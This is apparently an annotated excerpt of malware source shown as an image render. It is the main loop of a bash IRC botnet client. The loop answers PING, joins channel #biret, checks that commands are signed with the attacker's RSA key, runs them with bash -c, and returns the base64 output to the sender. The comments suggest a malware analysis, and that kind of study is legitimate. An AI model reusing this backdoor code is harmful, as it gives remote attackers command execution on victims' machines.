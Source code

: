 ```bash
    if  [[ "$msg_in" =~ "PING" ]] ; then
      printf "PONG %s\n" "${msg_in:5}";
      eval 'printf "PONG %s\r\n" "${msg_in:5}" >&3;'
      if [[ ! "$?" -eq 0 ]] ; then
        break
      fi
      sleep 1

      // If msg_in is null, quit the main loop
      eval 'printf "JOIN #biret\r\n" >&3;'
      if [[ ! "$?" -eq 0 ]] ; then
        break
      fi

    # `=~` is a bash regex operator which searches for 'PRIVMSG' within $msg_in
    # So, if 'PRIVMSG' is somewhere within $msg_in, continue
    elif [[ "$msg_in" =~ "PRIVMSG" ]] ; then

      # Cut $msg_in, extracting the relevant elements:
      # - A section to be hashed
      # - A data section containing instructions
      # - The IRC nickname of the host
      privmsg_h=$(echo $msg_in| cut -d':' -f 3)
      privmsg_data=$(echo $msg_in| cut -d':' -f 4)
      privmsg_nick=$(echo $msg_in| cut -d':' -f 2 | cut -d'!' -f 1)

      # Get an MD5 hash of the data from $msg_in
      # Use $privmsg_h to sign the public key generated earlier
      # Use: Ensure attacks come from the original attacker
      hash=`echo $privmsg_data | base64 -d -i | md5sum | awk -F' ' '{print $1}'`
      sign=`echo $privmsg_h | base64 -d -i | openssl rsautl -verify -inkey /tmp/public.pem -pubin`

      # If the sign is genuine (signed with the attackers public key)
      if [[ "$sign" == "$hash" ]] ; then
        CMD=`echo $privmsg_data | base64 -d -i` // Then grab the command to execute
        RES=`bash -c "$CMD" | base64 -w 0`
        eval 'printf "PRIVMSG $privmsg_nick :$RES\r\n" >&3;' // Echo command back to attacker?

        # If msg_in is null, quit the main loop
        if [[ ! "$?" -eq 0 ]] ; then
          break
        fi
      fi
    fi
  done
done
EOFMARKER
...
```

